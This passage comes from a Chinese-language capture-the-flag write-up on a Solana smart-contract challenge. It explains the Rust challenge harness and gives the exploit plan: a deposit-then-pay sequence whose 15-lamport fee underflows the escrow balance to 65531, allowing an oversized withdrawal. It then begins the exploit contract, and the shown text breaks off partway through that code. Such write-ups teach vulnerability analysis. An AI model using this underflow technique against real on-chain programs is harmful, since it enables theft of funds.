     builder
        .builder
        .add_account_with_lamports(user.pubkey(), system_program::ID, INIT_BAL);
    builder
        .builder
        .add_account_with_lamports(reserve, system_program::ID, RESERVE_BAL);
    ```
    - 给 user 50 lamports
    - 给 reserve 1000000 lamports
- 构建 challenge、输出 user 初始 lamports：
    ```rust
    let mut challenge = builder.build();

    let balance = challenge.env.get_account(user.pubkey()).unwrap().lamports;
    writeln!(socket, "user lamport before: {:?}", balance)?;
    ```
- 接收指令，交给用户合约执行：
    ```rust
    challenge.input_instruction(solve_pubkey, &[&user]).unwrap();
    ```
    - 这里的 input_instruction 方法也是在 sol-ctf-framework 中定义的，输入方法较复杂，不过好在题目提供了一个 solve.py 用来交互输入指令
- 检查目标，达到则下发 flag：
    ```rust
    let balance = challenge.env.get_account(user.pubkey()).unwrap().lamports;
    writeln!(socket, "user lamport after: {:?}", balance)?;

    if balance > TARGET_AMT {
        let flag = fs::read_to_string("flag.txt").unwrap();
        writeln!(
            socket,
            "Flag: {}",
            flag
        )?;
    }
    ```
    - 可见目标是使 user 拥有的 lamports 大于 60000 lamports

这样我们的攻击方式就很明显了：

- 先调用题目合约的 Init 指令完成初始化（题目已经写好）
- 再 deposit 11 lamports，使用户对应的 escrow 的 amount 记为 11
- 然后 pay 11 lamports，这时不会收取 11 lamports 而是收取基础费用 15 lamports。escrow 的 amount 从 11 减去 15 发生溢出，溢出到 65531，此时 withdraw 的话 reserve 有 1000000 足够支付，提出来后也可以达到题目 60000 的目标
- 直接 withdraw 即可

所以只需要将这些步骤都照葫芦画瓢写在 processor.rs 的 process_instruction 中即可：

???+ success "exp 合约"
    ```rust
    pub fn process_instruction(
        _program: &Pubkey,
        accounts: &[AccountInfo],
        _data: &[u8],
    ) -> ProgramResult {
        let account_iter = &mut accounts.iter();
        let utility_program = next_account_info(account_iter)?;
        let user = next_account_info(account_iter)?;
        let reserve = next_account_info(account_iter)?;
        let escrow_account = next_account_info(account_iter)?;
        let sys_prog_account = next_account_info(account_iter)?;
